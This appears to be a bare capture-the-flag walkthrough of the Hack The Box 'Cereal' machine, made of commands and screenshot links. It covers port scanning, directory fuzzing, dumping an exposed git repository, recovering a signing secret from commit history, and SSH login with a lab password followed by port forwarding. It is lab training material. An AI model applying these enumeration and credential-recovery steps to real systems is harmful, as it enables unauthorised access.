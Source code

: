```
https://10.10.10.217/login
```
![image](https://github.com/user-attachments/assets/5c7d113c-aacd-4556-8a17-01b3ca8d87b2)

```
nmap -sS -sC -sV -T5 -Pn 10.10.10.217
```
![image](https://github.com/user-attachments/assets/063c1d25-bfd8-4859-b1f2-8d9a9bfc2927)

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u https://10.10.10.217/FUZZ -fs 1948 -e .aspx,.php,.txt,.html,.sh
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u https://cereal.htb/FUZZ -fs 1948 -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/user-attachments/assets/6f4937eb-93eb-4c74-9195-6bb7abddaac1)

![image](https://github.com/user-attachments/assets/a6588324-e85d-4bda-a272-4515d3d54104)

```
https://source.cereal.htb/
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u https://source.cereal.htb/FUZZ -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/user-attachments/assets/45d1d706-700a-44eb-908f-9757cf7cb270)

![image](https://github.com/user-attachments/assets/a3f6721e-9fa2-459a-a9bb-e8a2253efff4)

```
git-dumper https://source.cereal.htb/.git /home/itsec/Documents/HTB-Cereal/2
```
![image](https://github.com/user-attachments/assets/81b31c65-c0ac-4714-9e08-8287c83ae335)

```
cat UsersController.cs
cat UserService.cs
```
![image](https://github.com/user-attachments/assets/b629ff41-0599-4c81-87a3-5402448c525f)

![image](https://github.com/user-attachments/assets/9559eb56-d0a4-4154-97bd-06d8fbd7414f)

```
git log –p
secretlhfIH&FY*#oysuflkhskjfhefesf
```
![image](https://github.com/user-attachments/assets/3a125a01-fce2-4dcd-a3fb-8b7d5d431352)

![image](https://github.com/user-attachments/assets/0406c72d-9d63-45ae-bf60-9620f899015f)

```
ssh sonny@10.10.10.217
mutual.madden.manner38974
```
![image](https://github.com/user-attachments/assets/5ead8bdf-a080-4cb3-9a75-768775ae6077)


```
ssh sonny@10.10.10.217
mutual.madden.manner38974
```
![image](https://github.com/user-attachments/assets/93fc213e-54eb-4849-9bf9-e260be27f9a9)


```
ssh -L 8080:127.0.0.1:8080 sonny@cereal.htb
http://localhost:8080/
```
![image](https://github.com/user-attachments/assets/884b90d4-32a8-45a0-b5bf-8b0da2e16d01)

![image](https://github.com/user-attachments/assets/00bd9a9a-136d-4618-abd9-048bf4f3ce63)
